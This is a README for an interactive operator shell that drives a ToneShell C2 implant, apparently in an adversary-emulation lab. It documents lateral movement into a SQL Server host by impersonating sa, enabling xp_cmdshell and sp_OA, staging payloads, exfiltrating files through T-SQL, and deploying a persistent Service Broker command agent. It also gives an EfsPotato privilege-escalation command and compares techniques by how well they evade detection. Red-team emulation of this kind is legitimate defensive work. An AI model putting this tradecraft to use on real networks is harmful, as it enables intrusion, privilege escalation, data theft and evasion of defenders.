

# controlShell

**Purpose:** Interactive operator shell for ToneShell C2 sessions, with four lateral execution channels into IIS01 through the MSSQL tunnel - `xpshell` (deprecated, file-staging via sp_OA + xp_cmdshell), `xpagent` (in-database async agent via Service Broker), `xprun` (direct PE execution via sp_OA WScript.Shell.Run - no cmd.exe), and `xpfile` (T-SQL file operations - no cmd spawn).

## Overview

`controlShell` wraps the evalsC2client REST API with a persistent interactive prompt so operators do not need to craft JSON task packets or manage session GUIDs manually. Every built-in command maps to one of four transports:

- **Direct C2** (`sessions`, `use`, bare commands, `get`, `put`, `kill`): JSON task packets posted to the ToneShell implant on WS01 via `POST /api/v1.0/session/<guid>/task`, output polled at `GET /api/v1.0/task/<task_guid>`.
- **xpshell tunnel** (`xpinit`, `xpshell cmd` [deprecated], `xpshell psh` [deprecated], `xpstage-aes` [deprecated], `xpstage-hex`, `xpexfil-aes` [deprecated], `xpexfil-hex`): chains of `sqlcmd` EXEC tasks on WS01 that reach IIS01 through `sp_OA`/`xp_cmdshell`. `xpshell cmd`/`psh` stage temporary `.bat`/`.ps1` to `C:\ProgramData\` - deprecated in favor of `xpexec`. `xpstage-hex` transfers binaries entirely in T-SQL via `ADODB.Stream` - no process spawn or disk artifact on IIS01 (preferred over `xpstage-aes`). `xpexfil-hex` reverses the channel using a single `OPENROWSET(BULK)` T-SQL batch - no process spawn on IIS01 (preferred over `xpexfil-aes`).
- **xpagent tunnel** (`xpagent init`, `xpexec`, `xpexec-bg`, `xpout`, `xpagent kill`): a dedicated `xpagent` database (`dbo.cmd` / `dbo.out` tables, AFTER INSERT trigger, Service Broker queue, activation procedure `agent_worker`) deployed to IIS01. Commands are submitted as INSERTs and executed asynchronously by the activated procedure via `xp_cmdshell @variable` - no `.bat`/`.ps1` ever written to disk per command. Reduces per-command MSSQL task count from 4–6 to 2 and eliminates intermediate disk artifacts. The database persists through SQL service restarts; use `xpagent kill` to clean up.
- **xprun direct execution** (`xprun`, `xprun-out`): sp_OA `WScript.Shell.Run` calls `ShellExecuteEx` to launch PE files directly - process chain is `sqlservr.exe → target.exe` with no `cmd.exe` intermediate. `xprun` returns exit code only; `xprun-out` chains with the `-o <file>` flag on the target exe + `xpfile cat` + `xpfile del` to capture and return stdout. Entire chain uses sp_OA only - zero `cmd.exe` spawns.
- **xpfile T-SQL file ops** (`xpfile exists`, `xpfile del`, `xpfile cat`, `xpfile ls`): file operations on IIS01 entirely through T-SQL built-ins and sp_OA COM - zero `cmd.exe` spawns. Used internally by `xprun-out` and available standalone.

```
Operator
  │
  ├─ Direct C2 ──► REST API ──► TONESHELL (WS01) ──► implant commands
  │
  └─ MSSQL tunnel (all variants):
       REST API ──► TONESHELL (WS01) ──► sqlcmd ──► IIS01\SQLEXPRESS
                                                        │
                                          xpshell: xp_cmdshell / sp_OA (staged files) [deprecated]
                                          xpagent: Service Broker trigger -> xp_cmdshell @var
                                          xprun:   sp_OA WScript.Shell.Run -> ShellExecuteEx (no cmd.exe)
                                          xpfile:  xp_fileexist / sp_OA FSO / OPENROWSET / xp_dirtree
```

## Lab topology



**Host roles relevant to this tool:**

| Host | Role in this tool |
|---|---|
| Operator machine | Runs `toneshell_shell.py` + controlServer; all commands originate here |
| WS01 | Initial-access host; carries the TONESHELL v2 implant; acts as the pivot point - all sqlcmd invocations to IIS01 execute as EXEC tasks on WS01 |
| IIS01 | Lateral target; no implant required - reached entirely through WS01's MSSQL access using the `svc_app_dev` domain account |

**Accounts in play:**

| Account | Where | What it can do |
|---|---|---|
| `TESTLAB\svc_app_dev` | WS01 session context (implant) | Connects to `IIS01\SQLEXPRESS` via sqlcmd |
| `sa` (SQL Server) | IIS01 | Full server control; reached via `EXECUTE AS LOGIN='sa'` from `svc_app_dev` |
| `NT SERVICE\MSSQL$SQLEXPRESS` | IIS01 | OS identity for processes spawned by `xp_cmdshell` |

## Target context

- **Operator machine:** runs `toneshell_shell.py` against controlServer on `localhost:<port>`
- **WS01:** TONESHELL v2 implant active; `sqlcmd` installed; line-of-sight TCP/1433 to IIS01
- **IIS01:** SQL Server Express instance `IIS01\SQLEXPRESS`; `svc_app_dev` has `EXECUTE AS LOGIN='sa'` capability; `sp_OA` and `xp_cmdshell` enabled after `xpinit`; `controlServer/files/` directory must exist before any exfil operation
- **Privilege required:** domain user (`svc_app_dev`) escalated to SA context via `EXECUTE AS LOGIN='sa'`

## Dependencies

```
pip install -r requirements.txt   # requests
```

Python venv: `D:\vcs\testlab-ael\venv\Scripts\python.exe`

## Usage

```
python toneshell_shell.py [--port 9999] [--debug]
```

Default port: `9999` - must match the controlServer REST API port. `--debug` prints every REST call, `sqlcmd` invocation, T-SQL batch, and PowerShell script as it is sent.

---

## Command reference

### Direct C2 (ToneShell implant on WS01)

| Command | What it does |
|---|---|
| `sessions` | List active C2 sessions |
| `use <session_id>` | Attach the prompt to a session |
| `detach` | Clear the attached session (local only) |
| `timeout <seconds>` | Set poll timeout for EXEC tasks (default 120 s) |
| `output` | Fetch buffered task output for current session |
| `get <remote_path>` | Pull file from implant to C2 upload dir (fire-and-forget) |
| `put <payload_name> <dest_path>` | Push file from C2 payloads dir to implant |
| `kill` | Prompt then send TERMINATE (id=255) to implant |
| `<anything else>` | EXEC task (id=5) - run shell command on implant |

### xpshell tunnel (sp_OA file staging → xp_cmdshell)

Must run `xpinit` first.

`xpinit` enables `sp_OA` + `xp_cmdshell` and also grants `ADMINISTER BULK OPERATIONS` to the login (required for `OPENROWSET(BULK)` in `xpfile cat` and `xpexfil-hex`).

| Command | What it does |
|---|---|
| `xpinit <host:port> <login> <pass>` | Enable sp_OA + xp_cmdshell on MSSQL target; grant ADMINISTER BULK OPERATIONS; verify with server name + service account |
| `xpshell cmd <command>` | **[DEPRECATED]** Run cmd.exe command on IIS01 via `.bat` staging (4 sqlcmd round-trips); use `xpexec` instead |
| `xpshell psh <ps_script_content>` | **[DEPRECATED]** Stage and run PowerShell script on IIS01 via `.ps1` staging (3 sqlcmd round-trips); use `xpexec powershell -Command "..."` instead |
| `xpstage-aes <payload_name> [--no-encrypt]` | **[DEPRECATED]** Transfer binary to IIS01 via `tempdb..stg` - AES-256-CBC encrypted, PowerShell decode on IIS01; use `xpstage-hex` instead |
| `xpstage-hex <payload_name>` | Transfer binary to IIS01 via hex-encoded `tempdb..stg` - T-SQL ADODB.Stream decode, no process spawn on IIS01; SQL file staged on WS01 and binary written to `C:\ProgramData\` both as `.stl` (renamed to the original name via FSO MoveFile in the same decode batch) |
| `xpexfil-aes <remote_path> <local_name> [insert_timeout_s=600] [chunk_mb=10]` | **[DEPRECATED]** AES-256-CBC exfiltrate file from IIS01 through `tempdb..exfil` in chunks (N×PowerShell on IIS01); use `xpexfil-hex` instead |
| `xpexfil-hex <remote_path> <local_name> [insert_timeout_s=600] [chunk_mb=10]` | Hex exfil via `OPENROWSET(BULK)` + T-SQL hex INSERT - no process spawn on IIS01; C2 Python decode |

`xpstage-aes` vs `xpstage-hex` trade-off:

| | `xpstage-aes` [deprecated] | `xpstage-hex` |
|---|---|---|
| Encoding | AES-256-CBC + base64 | hex (no encryption) |
| Decode on IIS01 | PowerShell (SqlClient loopback + AES decrypt + WriteAllBytes) | T-SQL in-process (variable concat + `CONVERT` + `sp_OA ADODB.Stream`) |
| Process spawn on IIS01 | `cmd.exe` + `powershell.exe` | none (COM in-process in `sqlservr.exe`) |
| Disk artifact on IIS01 | `.ps1` file (temporary) | transient `<stem>.stl` (renamed in-batch) |
| SQL file size | smaller (~1.33 chars/byte) | larger (~2 chars/byte) |

Use `xpstage-hex` as the default - it eliminates process spawns and disk artifacts on the target.

`xpexfil-aes` vs `xpexfil-hex` trade-off:

| | `xpexfil-aes` [deprecated] | `xpexfil-hex` |
|---|---|---|
| INSERT on IIS01 | N × PowerShell (OpenRead + AES + base64 + SqlClient) | 1 × T-SQL (`OPENROWSET(BULK)` + hex + INSERT all) |
| Process spawn on IIS01 | N × (`cmd.exe` + `powershell.exe`) | none |
| Disk artifact on IIS01 | N × `.ps1` (temporary) | none |
| Extract on WS01 | PowerShell (SqlClient + base64 decode + AES decrypt) | PowerShell (SqlClient + write hex text) |
| Decode | AES-256-CBC on WS01 | `bytes.fromhex()` on C2 (Python) |
| Encryption | AES-256-CBC | none (hex only) |

Use `xpexfil-hex` as the default - it eliminates all process spawns on IIS01 and simplifies the extract step.

☣️ `xpshell cmd <cmd>` example - EfsPotato privilege escalation (requires `seclogon` running on IIS01):

```
☣️ xpshell cmd C:\ProgramData\CertEnrollSvc.exe "cmd /c whoami /priv > C:\ProgramData\out.txt 2>&1" lsarpc 0<nul
xpshell cmd type C:\ProgramData\out.txt
```

### xpagent tunnel (Service Broker in-DB async agent)

Must run `xpinit` then `xpagent init`. Creates a persistent `xpagent` database on IIS01 with tables `dbo.cmd` / `dbo.out`, an AFTER INSERT trigger, Service Broker queue, and activation procedure `agent_worker`. The database survives SQL service restarts - run `xpagent kill` to clean up when done. See `xpagent-design.md` for architecture details.

| Command | What it does |
|---|---|
| `xpagent init` | Deploy Service Broker trigger + queue + activation procedure as `xpagent` database on IIS01; run echo test |
| `xpagent kill` | ☣️ Drop the `xpagent` database from IIS01 (`DROP DATABASE xpagent`) - removes all xpagent objects |
| `xpexec <command>` | INSERT command → wait for activation proc to run via xp_cmdshell → print output |
| `xpexec-bg <command>` | INSERT command, fire-and-forget (returns `cmd_id`; retrieve output with `xpout`) |
| `xpout <cmd_id>` | Read output rows for a previously queued command |

`xpexec` vs `xpshell cmd` trade-off: `xpexec` costs 2 tasks and writes no disk artifacts; `xpshell cmd` costs 4–6 tasks and writes `.bat` + output `.txt` to `C:\ProgramData\`. Use `xpexec` when the xpagent is initialized; use `xpshell cmd` only when comparing detection signals or xpagent is not yet deployed.

### xprun direct execution (sp_OA WScript.Shell.Run - no cmd.exe)

Must run `xpinit` first. Requires the target to be a PE file (`.exe`) already staged on IIS01 (via `xpstage-hex`). Uses `sp_OA WScript.Shell.Run` which calls `ShellExecuteEx` internally - the process chain is `sqlservr.exe → target.exe` with no `cmd.exe` in between.

| Command | What it does |
|---|---|
| `xprun <exe_command>` | Direct PE execution via sp_OA `WScript.Shell.Run`; returns exit code only, no stdout capture |
| `xprun-out <exe_command>` | Same as `xprun` but injects `-o <temp.txt>` flag → blocks until done → `xpfile cat` reads output → `xpfile del` cleans up |

`xprun-out` requires the target exe to support the `-o <file>` flag for stdout redirection (e.g. `go-thehash.exe -o temp.txt pipe ...`). The entire chain - execution, output read, cleanup - uses sp_OA only with zero `cmd.exe` spawns.

`xpexec` vs `xprun` trade-off:

| | `xpexec` | `xprun` | `xprun-out` |
|---|---|---|---|
| Mechanism | xpagent Service Broker → `xp_cmdshell @var` | sp_OA `WScript.Shell.Run` → `ShellExecuteEx` | sp_OA Run + `-o file` + `xpfile cat` + `xpfile del` |
| Process chain on IIS01 | `sqlservr.exe → cmd.exe → target.exe` | `sqlservr.exe → target.exe` | `sqlservr.exe → target.exe` (output via sp_OA COM) |
| cmd.exe spawn | yes (always) | no | no |
| Stdout capture | yes (xp_cmdshell returns result set) | no (exit code only) | yes (via `-o` flag + xpfile cat) |
| Requires xpagent | yes (`xpagent init` first) | no (sp_OA from `xpinit` only) | no |
| Requires `-o` flag on exe | no | no | yes |
| Works with Windows built-ins | yes (`net`, `sc`, `powershell`, etc.) | no (PE files only) | no (PE files with `-o` support only) |

Use `xprun`/`xprun-out` for PE file execution (go-thehash, CertEnrollSvc) to eliminate cmd.exe from the process tree. Use `xpexec` for Windows built-in commands (`sc query`, `net group`, `powershell`) that require cmd.exe for stdout capture.

### xpfile - T-SQL file operations (no cmd spawn)

Requires `xpinit` first. All operations use T-SQL built-ins or sp_OA COM - zero `cmd.exe` spawns on IIS01.

| Command | What it does |
|---|---|
| `xpfile exists <path>` | Check file/directory existence via `xp_fileexist`; returns three-column table (file_exists, file_is_a_directory, parent_directory_exists) |
| `xpfile del <path>` | Delete file via sp_OA `Scripting.FileSystemObject.DeleteFile`; returns `deleted` or `error: hr=<code>` |
| `xpfile cat <path>` | Read text file via `OPENROWSET(BULK ... SINGLE_CLOB)` CAST to NVARCHAR(MAX); requires `ADMINISTER BULK OPERATIONS` (granted by `xpinit`) |
| `xpfile ls <path>` | List directory via `xp_dirtree`; returns subdirectory and file names with depth and file flag |

Used internally by `xprun-out` (cat + del after `-o` output capture) and available standalone for IIS01 file system inspection.

---

## Escaping model

Two independent layers - never conflate:

| Layer | Scope | Rule |
|---|---|---|
| C runtime `-Q "..."` | All `sqlcmd` invocations | `"` → `""` (handled in `_exec_q`) |
| T-SQL string `'...'` | All T-SQL literals | `'` → `''` (handled in `_tsql_escape`) |

Content containing `"` (e.g. `.bat` commands) uses the `@v` + `CHAR(34)` pattern in `_sp_oa_write` so `"` never enters a T-SQL string literal. For xpagent, the command text is stored in the table as a variable and handed directly to `xp_cmdshell @c` - neither quoting layer touches the command content after the INSERT boundary.

---

## See also

- Code flow and ATT&CK mapping: `Flow.md`
- xpagent architecture, design decisions, and implementation roadmap: `xpagent-design.md`
- MSSQL module change history and bug fixes: `mssql-module-changelog.md`
- controlServer staging endpoint: `../../controlServer/restapi/restapi.go` - `POST /api/v1.0/mssql/stage`
- xpagent DDL: `../../controlServer/sql/xpagent_init.sql`
